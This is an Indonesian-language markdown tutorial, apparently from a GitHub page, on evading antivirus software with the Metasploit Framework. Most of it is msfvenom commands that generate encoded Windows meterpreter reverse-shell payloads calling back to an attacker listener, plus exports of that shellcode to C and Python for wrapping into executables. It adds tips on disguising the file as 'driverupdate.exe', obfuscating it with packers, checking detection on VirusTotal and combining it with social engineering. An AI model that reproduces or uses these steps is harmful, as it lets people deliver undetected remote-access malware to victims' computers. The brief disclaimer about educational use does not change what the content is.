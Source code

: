 # Bypass Antivirus (AV) dengan Metasploit Framework

## A. Kenapa Perlu Bypass AV?

Saat payload buatan Metasploit dieksekusi di sistem target, antivirus modern bisa langsung mendeteksi dan memblokirnya. Oleh karena itu, bypass AV menjadi langkah penting agar payload dapat berjalan tanpa terdeteksi.

## B. Teknik Umum Bypass AV

| Teknik | Deskripsi |
|:--:|:-:|
| Encoding Payload | Mengacak struktur payload agar tidak dikenali signature AV |
| Packing / Obfuscation | Membungkus file dengan enkripsi atau modifikasi struktur file | 
| Custom Payload Wrapper | Menulis skrip sendiri dalam Python/C/VB yang menjalankan shellcode |
| Menghindari Signature Payload	| Tidak menggunakan payload default bawaan Metasploit |

## C. Bypass AV dengan Encoder Metasploit Framework

Gunakan encoder saat membuat payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o shell_encoded.exe
```

**Keterangan:**

- `-e`: Encoder (contoh: `x86/shikata_ga_nai`)
- `-i`: Iterasi encoder (semakin banyak, semakin acak tapi bisa tidak stabil)

**Encoder Populer di Metasploit:**

- `x86/shikata_ga_nai`
- `cmd/powershell_base64`
- `x86/countdown`
- `x86/jmp_call_additive`

Cek semua encoder:

```
msfvenom --list encoders
```

## D. Membungkus Payload dalam Bahasa Pemrograman Lain

### 1. Format C

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c > payload.c
```

Compile secara manual dan modifikasi kode untuk menyisipkan ke aplikasi.

### 2. Format Python:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python > payload.py
```

Bisa dikonversi ke `.exe` dengan `pyinstaller`, dan payload dapat disamarkan.

## E. Tips Tambahan

| Tips | Penjelasan |
|:--:|:-:|
| Ganti nama file | Gunakan nama umum seperti driverupdate.exe |
| Obfuscate | Gunakan tool seperti `UPX`, `PyArmor`, `dll` |
| Test | Gunakan VirusTotal untuk uji deteksi |
| Ganti payload | Hindari payload yang umum seperti `meterpreter/reverse_tcp` |
| Social Engineering | Gabungkan dengan file asli atau teknik persuasi |


## F. Catatan Penting

- Teknik bypass AV tidak menjamin selalu berhasil.
- AV signature terus diperbarui → butuh improvisasi & eksperimen.
- Gunakan hanya untuk tujuan edukasi dan pengujian legal.
